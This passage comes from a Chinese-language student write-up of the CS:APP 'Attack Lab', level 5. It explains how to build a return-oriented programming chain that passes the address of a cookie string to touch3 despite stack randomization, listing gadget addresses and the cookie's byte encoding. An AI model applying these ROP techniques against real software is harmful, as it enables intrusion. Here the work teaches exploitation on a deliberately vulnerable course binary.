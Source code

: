 ![img](Attack Lab.assets/v2-13869934030a0538ae7f1e4a6ab42202_1440w.jpg)

### level5

> 题意解析：同level3,携带参数cookie字符串，调用touch3
>
> ```
> Cookie: 0x59b997fa
> 59b997fa作为字符串转换成ASCII表示（16进制）：35 39 62 39 39 37 66 61
> 注意ASCII这里在内存中没有大小端这一说，所以直接排列即可
> ```

回顾touch3的汇编代码

```asm
movq  $0x5561dca8,%rdi
pushq $0x4018fa
ret
```

touch3也涉及了，因为上面那一种情况只需要传递cookie的数值本身，所以不论栈怎么随机化，你都可以直接写到ROP里面，但是touch3需要传递的是cookie的地址，而栈随机化是会影响地址的，所以我们需要找到一种方法传递这个地址

**这种方法就是想办法获得%rsp的地址，然后将其加上固定的偏移量从而找到cookie**

第一步：movq %rsp xx--保存下来栈顶指针的位置

查询得到了`movq %rsp %rax`，地址：`401aad`

![image-20250925133638725](Attack Lab.assets/image-20250925133638725.png)

找到倒数第二步用的gadget：

这个需要全用，这个需要用 %rdi %rsi两个寄存器计算偏移量

```
00000000004019d6 <add_xy>:
  4019d6:	48 8d 04 37          	lea    (%rdi,%rsi,1),%rax
  4019da:	c3                   	ret   
```

这里的思路就是%rdi和%rsi其中一个保留%rsp原来的位置，一个保留偏移量，然后加到%rax

倒数第一步：`movq %rax %rdi`，地址`4019c5`

这一步就是将cookie的地址传给%rdi--第一个参数，然后准备开始调用touch3了

```
00000000004019c3 <setval_426>:
  4019c3:	c7 07 48 89 c7 90    	movl   $0x90c78948,(%rdi)
  4019c9:	c3                   	ret   
```

现在分析怎么计算偏移量，以及怎么计算



第二步：将初始%rsp放在%rdi之中，也就标志着%rsi需要用来计算偏移量

和倒数第一步一样
